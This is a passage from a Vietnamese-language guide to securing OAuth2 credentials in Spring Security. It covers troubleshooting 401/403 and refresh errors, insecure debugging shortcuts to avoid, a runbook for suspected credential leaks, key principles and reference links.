| Login callback hoàn tất nhưng API trả 401 | Access Token sai audience/issuer, đã hết hạn hoặc header không được gửi. | Kiểm tra token metadata, WebClient filter, Resource Server policy. |
| API trả 403 | Scope/role/tenant/ownership chưa đủ. | Kiểm tra quyền API; không đổi sang token quyền cao. |
| Refresh trả `invalid_grant` | Refresh Token revoked/expired, rotation reuse hoặc sai client policy. | Cleanup/reauthorize, kiểm tra concurrency và provider logs. |
| Một node không load được authorized client | Session/store cục bộ, principal mismatch, credential DB/KMS thiếu. | Xem store wiring, node identity, KMS access bằng metadata. |
| Decrypt token thất bại | Sai encryption key version/AAD, record hỏng, migration lỗi. | Xem key policy/ciphertext format; không fallback plaintext. |
| Support không xem được token | Chính sách quyền tối thiểu có hiệu lực. | Cung cấp diagnostic metadata thay vì mở quyền raw token. |
| Debug logs không có Authorization header | Redaction đúng hoặc HTTP client chưa gửi token. | Dùng chỉ báo Boolean/trace được làm sạch để phân biệt. |
| Khi rotate secret, một số replicas vẫn lỗi | Chưa reload/restart, rollout dở dang, provider không hỗ trợ overlap. | Kiểm tra deployment/secret version theo node. |
| Session hết hạn nhưng token còn ở DB | Hai loại lifecycle độc lập. | Kiểm tra logout/retention policy, không tự phục hồi authentication. |
| Token bị gửi sang API ngoài | Default WebClient token, URI động, redirect/proxy sai. | Điều tra destination allowlist và HTTP filters. |
| Cluster refresh xung đột | Nhiều node dùng cùng Refresh Token cũ. | Kiểm tra token version/lock và rotation semantics. |

### 33.1. Không debug bằng cách tắt bảo mật

Những «cách sửa» nguy hiểm:

- Tắt HTTPS certificate verification.
- Cho tất cả developers quyền đọc secret production.
- Thêm endpoint trả raw Access Token.
- Mở `/actuator/env` công khai.
- Chấp nhận mọi token bất kể audience.
- Ghi tất cả HTTP headers vào log production.
- Bỏ tenant filter để token store «dễ tìm» dữ liệu.
- Giữ một client secret cũ vô thời hạn sau rotation.
- Dùng Refresh Token của user khác khi refresh thất bại.

Hướng đúng là quan sát metadata an toàn và xác định ranh giới đang gây lỗi.

## 34. Runbook ứng phó khi nghi ngờ lộ credential

Một quy trình vận hành có thể chia thành các giai đoạn:

### 34.1. Xác định phạm vi

- Credential nào: client secret, Access Token, Refresh Token, ID Token hay session cookie?
- Thuộc registration/client/tenant/environment nào?
- Token/secret còn hiệu lực không?
- Nó xuất hiện ở đâu: Git, log, trace, DB, backup, browser, HTTP destination?
- Ai có thể truy cập nguồn lộ?
- Provider hỗ trợ revoke/rotate và có audit gì?

Không copy nguyên credential vào ticket để xác minh loại token. Dùng metadata và công cụ bảo mật được phê duyệt.

### 34.2. Chặn việc tiếp tục lộ

- Dừng log raw headers/request bodies.
- Giới hạn quyền truy cập logs, DB hoặc secret manager bị ảnh hưởng.
- Tắt endpoint rò credential hoặc chặn URL exfil.
- Không tiếp tục phát hành token mới vào một kênh chưa được kiểm soát.
- Bảo toàn bằng chứng/audit theo quy trình và giữ bí mật dữ liệu điều tra.

### 34.3. Thu hồi và thay credential

- Rotate/revoke client secret bị lộ.
- Revoke Access/Refresh Token khi provider hỗ trợ và phạm vi được xác định.
- Invalidate sessions có liên quan nếu session cookie bị lộ.
- Nếu encryption key bị lộ, đánh giá re-encrypt/rotate và phạm vi ciphertext có thể giải mã.
- Cập nhật app config/rollout/manager store theo chính sách.

### 34.4. Xác minh và ngăn tái diễn

- Kiểm tra app dùng credential mới, token endpoint hoạt động.
- Kiểm tra logs không còn raw token.
- Rà quyền IAM/KMS/DB/CI và backup.
- Điều tra sự kiện API bất thường trong cửa sổ phơi nhiễm.
- Bổ sung controls như secret scanning, redaction và destination allowlist.
- Ghi nhận hậu kiểm theo quy trình tổ chức.

Runbook không thay thế incident-response policy chính thức; mục tiêu là giữ các bước xử lý **đúng loại credential** và **không tạo thêm bản sao bí mật trong lúc điều tra**.

## 35. Các nguyên tắc cần ghi nhớ

- **Client secret** dùng để xác thực confidential client với Authorization Server. Không gửi vào browser, Resource Server hoặc Git.
- **Access Token** dùng để gọi Resource Server được phép, có audience/scope/expiry. Không gửi tới arbitrary URL hoặc host redirect không tin cậy.
- **Refresh Token** chỉ nên dùng ở token endpoint, bảo vệ nghiêm ngặt trong backend/storage, có xử lý rotation, revocation và concurrency.
- `OAuth2AuthorizedClientRepository`/Service giữ token theo registration và principal; không tự cấp quyền cho mọi người đọc token.
- **Session cookie**, **SecurityContext** và **authorized client** là các trạng thái khác nhau. Cookie `HttpOnly` không bảo vệ token DB nếu quyền DB quá rộng.
- Environment variables, Kubernetes Secrets, database TDE và TLS đều hữu ích nhưng **không đủ nếu đứng một mình**.
- Mã hóa token nên dùng cơ chế được kiểm chứng, tách encryption key khỏi DB, giữ quyền KMS tối thiểu.
- Không có endpoint public hoặc log nào cần hiển thị raw credential chỉ để debug.
- Dùng explicit authorized client với WebClient, tránh default token policy cho nhiều hosts.
- Tách quyền theo workload, principal, tenant và môi trường; không cho input user quyết định token của user khác.
- Rotation của client secret, Refresh Token và encryption key là **những vòng đời khác nhau**.
- Logout local, xóa authorized client và revoke tại Authorization Server không đồng nghĩa nhau.
- Khi gặp lỗi, ưu tiên **fail closed + metadata an toàn**, không bỏ qua bảo mật để giao thức «chạy được».

## 36. Tài liệu tham khảo

- [Spring Security Reference — OAuth2 Client (Servlet)](https://docs.spring.io/spring-security/reference/servlet/oauth2/client/index.html)
- [Spring Security Reference — OAuth2 Client Core](https://docs.spring.io/spring-security/reference/servlet/oauth2/client/core.html)
- [Spring Security Reference — OAuth2 Login](https://docs.spring.io/spring-security/reference/servlet/oauth2/login/index.html)
- [Spring Security Reference — OAuth2 Client (Reactive)](https://docs.spring.io/spring-security/reference/reactive/oauth2/client/index.html)
- [Spring Security API — OAuth2AuthorizedClient](https://docs.spring.io/spring-security/reference/api/java/org/springframework/security/oauth2/client/OAuth2AuthorizedClient.html)
- [Spring Security API — OAuth2AuthorizedClientService](https://docs.spring.io/spring-security/reference/api/java/org/springframework/security/oauth2/client/OAuth2AuthorizedClientService.html)
- [Spring Security API — OAuth2AuthorizedClientRepository](https://docs.spring.io/spring-security/reference/api/java/org/springframework/security/oauth2/client/web/OAuth2AuthorizedClientRepository.html)
- [Spring Security API — JdbcOAuth2AuthorizedClientService](https://docs.spring.io/spring-security/reference/api/java/org/springframework/security/oauth2/client/JdbcOAuth2AuthorizedClientService.html)
- [Spring Security Reference — HTTP Security Headers](https://docs.spring.io/spring-security/reference/servlet/exploits/headers.html)
- [Spring Boot Reference — Externalized Configuration](https://docs.spring.io/spring-boot/reference/features/external-config.html)
- [Spring Boot Reference — Actuator Endpoints](https://docs.spring.io/spring-boot/reference/actuator/endpoints.html)
- [OAuth 2.0 — RFC 6749](https://www.rfc-editor.org/rfc/rfc6749)
- [OAuth 2.0 Bearer Token Usage — RFC 6750](https://www.rfc-editor.org/rfc/rfc6750)
- [OAuth 2.0 Token Revocation — RFC 7009](https://www.rfc-editor.org/rfc/rfc7009)
- [Proof Key for Code Exchange — RFC 7636](https://www.rfc-editor.org/rfc/rfc7636)
- [OAuth 2.0 Security Best Current Practice — RFC 9700](https://www.rfc-editor.org/rfc/rfc9700)
- [OpenID Connect Core 1.0](https://openid.net/specs/openid-connect-core-1_0.html)
- [OWASP Cheat Sheet Series — Secrets Management](https://cheatsheetseries.owasp.org/cheatsheets/Secrets_Management_Cheat_Sheet.html)
- [OWASP Cheat Sheet Series — Session Management](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html)

**Kết luận:** giới hạn truy cập vào client secret, Access Token và Refresh Token phải được thiết kế theo **đúng trách nhiệm của từng credential**. Client secret chỉ dành cho client authentication tại Authorization Server; Access Token chỉ được gửi tới Resource Server hợp lệ; Refresh Token chỉ được dùng để xin token mới theo grant và chính sách provider. Trong Spring Security OAuth2/OIDC Client, kết hợp **secret manager, authorized client repository/service, phân quyền principal/tenant, mã hóa và KMS, WebClient destination allowlist, session/cookie protection, redacted observability, rotation/revocation và incident response** để credential luôn được **dùng đúng nơi, bởi đúng thành phần, trong đúng thời hạn**, và không bị công bố qua những đường đi không cần thiết.
